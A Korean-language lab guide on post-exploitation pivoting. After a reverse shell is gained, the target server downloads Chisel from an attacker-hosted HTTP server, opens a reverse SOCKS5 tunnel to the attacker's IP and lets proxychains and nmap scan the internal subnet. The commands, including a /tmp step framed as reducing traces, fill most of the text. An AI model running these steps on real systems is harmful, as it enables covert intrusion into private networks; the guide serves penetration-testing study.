






<font color="red">이 과정은 학습을 위해 이해하고자 정리된 내용이며 해킹을 장려하기 위한 글이 아님을 명시합니다.
해당 글로 인해 받은 모든 불이익은 당사자에게 모든 책임이 있음을 명심하시길 바랍니다.
</font>

# 🛡️ 실습 가이드: 리버스 쉘 환경에서의 내부망 피보팅 (Chisel & Proxychains)
## SOCKS5 프록시를 이용한 Chisel 터널링

이미 타겟 서버(Bastion)의 제어권(Reverse Shell)을 확보한 상태에서, 외부에서 접근 불가능한 내부망(Private Subnet)의 자원을 탐색하기 위해 역방향 SOCKS5 터널링을 구축하는 과정

(특정 포트 오픈 등의 보안 설정은 별도 필요)

## 1. 개요 및 환경 정보

장악한 타겟 서버에 무거운 공격 도구를 직접 설치하지 않고, 터널링을 통해 공격자 서버의 도구를 그대로 활용하는 것이 핵심입니다.

- **공격자 서버 (C2)**: `[공격자 퍼블릭 IP]` (AWS EC2 / 외부망)
- **타겟 서버 (Bastion)**: `[타겟 퍼블릭 IP]` (Public Subnet / 리버스 쉘 탈취 완료)

## 2. 단계별 명령어 작업 내용

### Step 1. [공격자 서버] 도구 준비 및 배달 설정

먼저 공격자 서버에 터널링 도구인 **Chisel**을 준비하고, 타겟이 가져갈 수 있도록 웹 서버를 구동합니다.

```bash
# 1. Chisel 다운로드 (Linux 64bit용)
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz

# 2. 압축 해제 및 파일명 정리
gunzip chisel_1.9.1_linux_amd64.gz
mv chisel_1.9.1_linux_amd64 chisel
chmod +x chisel

# 3. 타겟 서버로 파일 전송을 위한 임시 HTTP 서버 실행 (8080 포트)
python3 -m http.server 8080
```

> **Note:** AWS 보안 그룹에서 `8080`(파일전송용) 포트 인바운드 허용이 필요합니다.

### Step 2. [타겟 서버] 도구 다운로드 (리버스 쉘 환경)

이미 획득한 리버스 쉘 터미널에서 공격자 서버에 접속하여 파일을 내려받습니다.

```bash
# 1. 흔적 최소화를 위해 임시 폴더로 이동
cd /tmp

# 2. 공격자 서버로부터 Chisel 다운로드 및 실행 권한 부여
wget http://[공격자 퍼블릭 IP]:8080/chisel
chmod +x chisel
```

### Step 3. [양측] 리버스 터널링 활성화 (SOCKS5)

공격자와 타겟 사이에 비밀 통로를 개설합니다. 반드시 공격자 서버가 먼저 대기 모드여야 합니다.

#### ① 공격자 서버 (Server 모드)

```bash
# 8000번 포트로 역방향 접속을 기다림 (리버스 모드 활성화)
./chisel server -p 8000 --reverse
```

#### ② 타겟 서버 (Client 모드)

```bash
# 공격자 서버로 역접속하여 SOCKS 프록시 생성 요청
./chisel client [공격자 퍼블릭 IP]:8000 R:socks
```

> **결과:** 연결 성공 시 공격자 서버 로그에 `proxy#R:127.0.0.1:1080=>socks: Listening` 메시지가 출력됩니다.

### Step 4. [공격자 서버] Proxychains 설정 및 정찰

통로가 완성되었으므로, 새 터미널에서 공격자 서버의 도구가 이 터널을 경유하도록 설정합니다.

#### 1) Proxychains 설정 수정

```bash
sudo nano /etc/proxychains4.conf
```

파일 맨 하단 `[ProxyList]` 섹션을 다음과 같이 수정합니다.

```plaintext
[ProxyList]
socks5  127.0.0.1 1080
```

#### 2) 내부망 타겟 스캔

```bash
# nmap을 사용하여 내부망 서버의 포트 상태 확인
proxychains4 nmap -Pn -sT -p 22 --open 10.0.13.25/16
```

## 3. 요약 테이블

| 순서 | 작업 주체 | 작업 내용 | 주요 명령어                                                  |
|------|-----------|-----------|---------------------------------------------------------|
| 1 | 공격자 | 파일 전달 준비 | `python3 -m http.server 8080`                           |
| 2 | 타겟 | 공격 도구 유입 | `wget http://[공격자 퍼블릭 IP]:8080/chisel`                  |
| 3 | 공격자 | 터널 수신 대기 | `./chisel server -p 8000 --reverse`                     |
| 4 | 타겟 | 터널 송신(역접속) | `./chisel client [공격자 퍼블릭 IP]:8000 R:socks`             |
| 5 | 공격자 | 내부망 정찰 실행 | `proxychains4 nmap -Pn -sT -p 22 --open 10.0.0.0/16` 등등 |

## 4. 핵심 개념

- **Pivoting**: 이미 침투한 서버를 통해 내부망으로 이동하는 기술
- **SOCKS5 Tunnel**: 트래픽을 우회시키는 프록시 터널
- **Proxychains**: 일반 도구를 프록시 경유로 실행하게 하는 도구
- **Chisel**: HTTP 기반 터널링 도구

## 5. 활용 목적

이 구조를 통해 공격자는 다음을 외부 공격자 서버에서 직접 수행할 수 있습니다.

- 내부망 서버 포트 스캔
- 내부 서비스 접근
- 추가 취약점 탐색